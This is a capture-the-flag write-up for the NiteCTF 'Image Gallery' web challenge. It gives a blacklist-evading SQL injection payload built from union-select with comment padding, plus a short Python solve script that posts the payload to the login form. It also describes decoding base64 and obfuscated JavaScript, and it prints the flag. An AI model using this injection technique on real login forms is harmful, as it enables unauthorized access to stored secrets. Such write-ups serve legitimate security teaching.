







# Image Gallery

```
View your photo gallery using our super Secure image gallery. we offer free 1 terabyte of storage of high-Quality images, showcased in a personalized custom aLbum.

Author: T3mp∈$+

Link: https://imgy-gal.nitectf.live

File: imagegal.zip
```

## POC

After reviewing [main.py](dist/main.py) and [schema.sql](dist/schema.sql), it became obvious that the objective was to log in as someone with a secret. However, there are numerous blacklists in place. After conducting research, I crafted a payload to bypass the restrictions and successfully obtained the secret.

```sql
a'/**/union/**/select/**/secret/**/from/**/login_details--
```



The secret was encrypted in base64.



Then I decrypted the secret, and I got JavaScript code, but it was obfuscated.



I used a deobfuscator tool to deobfuscate the code and got plain JavaScript code.



Again, I got text encrypted in base64.



I decrypted the text and got a link to: [https://github.com/ishan-surana/challenge/](https://github.com/ishan-surana/challenge/)



After a little bit of searching, I found the flag in an edited comment in [https://github.com/ishan-surana/challenge/issues/4](https://github.com/ishan-surana/challenge/issues/4)



I think it was really weird because it was a web challenge, but I needed to search through the GitHub repository.

## solve.py

```python
import re
import requests

url = "https://imgy-gal.nitectf.live/login"

data = {
    "username": "a'/**/union/**/select/**/secret/**/from/**/login_details--",
    "password": "test"
}

r = requests.post(url, data=data)
encrypted = re.findall(r"(ey.*fQ)", r.text)[0]

print(encrypted)
```

## Flag

`nite{k33ping_up_w1th_+he_time5}`
